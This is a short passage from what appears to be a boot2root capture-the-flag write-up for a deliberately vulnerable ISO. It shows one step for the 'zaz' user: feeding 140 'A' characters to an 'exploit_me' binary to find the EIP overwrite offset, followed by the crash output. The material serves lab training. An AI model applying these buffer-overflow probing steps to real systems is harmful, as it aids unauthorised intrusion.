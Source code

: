 # boot2root
root a iso using multiple vulnerabilities 


## ZAZ user

#### find char numbers to overwrite the EIP

```
./exploit_me `printf 'A%.0s' {1..140}`
result
zaz@BornToSecHackMe:~$ ./exploit_me `printf 'A%.0s' {1..140}`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Illegal instruction (core dumped)
```
